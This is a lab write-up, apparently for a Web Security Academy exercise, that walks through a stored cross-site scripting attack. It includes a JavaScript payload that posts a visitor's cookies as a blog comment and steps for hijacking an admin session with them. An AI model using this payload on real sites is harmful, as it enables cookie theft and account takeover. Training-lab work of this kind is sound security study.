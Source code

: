 # XSS LAB 22 - Exploiting cross-site scripting to steal cookies

## Manual Solution

### 1. Access the Lab.
- Open the Web Security Academy lab environment in your browser.

### 2. Creating a comment:
- Comment: `<script>alert('XSS')</script>`
- Name: `Anything`
- Email: `Anything@anything.com`
- Website: `https://www.anything.com`
- Submit to comment and an alert pop-up appears.
- This confirms that we can inject arbitrary JavaScript code

### 3. Inspecting the Form Elements.
- Inspect the post page. You'll see a form element.
```html
 <form action="/post/comment" method="POST" enctype="application/x-www-form-urlencoded">
    <input required type="hidden" name="csrf" value="KYE5AGcZujltNAyFT9tcICBwoW3y1lEC">
    <input required type="hidden" name="postId" value="6">
    <label>Comment:</label>
    <textarea required rows="12" cols="300" name="comment"></textarea>
        <label>Name:</label>
        <input required type="text" name="name">
        <label>Email:</label>
        <input required type="email" name="email">
        <label>Website:</label>
        <input pattern="(http:|https:).+" type="text" name="website">
        <button class="button" type="submit">Post Comment</button>
</form>
```
- There are six required fields. CSRF token and POST ID are hidden.
- We can retrieve CSRF token using:
```js
document.getElementsByName("csrf")[0].getAttribute('value');
```

### 4. Stealing cookies
- We can inject and execute any JavaScript code we want.
- Create a comment
    - Name: `Anything`
    - Email: `Anything@anything.com`
    - Website: `https://www.anything.com`
    - Comment: 

    ```js
    <script>
        window.onload = function() {
            let csrf_token = document.getElementsByName("csrf")[0].getAttribute('value');
        
            let data = new FormData();
            data.append('postId', '1');
            data.append('csrf', csrf_token);
            data.append('comment', document.cookie);
            data.append('name', 'kurabiye');
            data.append('email', 'asd@asd.com');
            data.append('website', 'https://www.google.com');
            
            fetch('https://[YOUR_LAB_ID].web-security-academy.net/post/comment', {
                method: 'POST',
                mode: 'no-cors',
                body: data
            });
        }
    </script>
    ```
    - When a victim visits the post page this JavaScript code automatically creates a comment containing the victim's cookies.
    - The `fetch` function sends a POST request to the relevant URL. This function has a parameter called body which is used to send data to the server.
    - The data variable stores form data. We use `data.append` to add our desired data to the form data.

### 5. Logging in as Admin:
- After submitting the injected comment you will see the session data in the comments.
- Copy the session data.
- Open the Inspect tool (Developer Tools).
- Navigate to the Storage tab.
- Go to Cookies and select the target website.
- Paste the copied session value into the relevant cookie field.


## Automated Solution

### 1. Download the script
### 2. Run the script with the following command:
```sh
python xss_lab_22.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)
```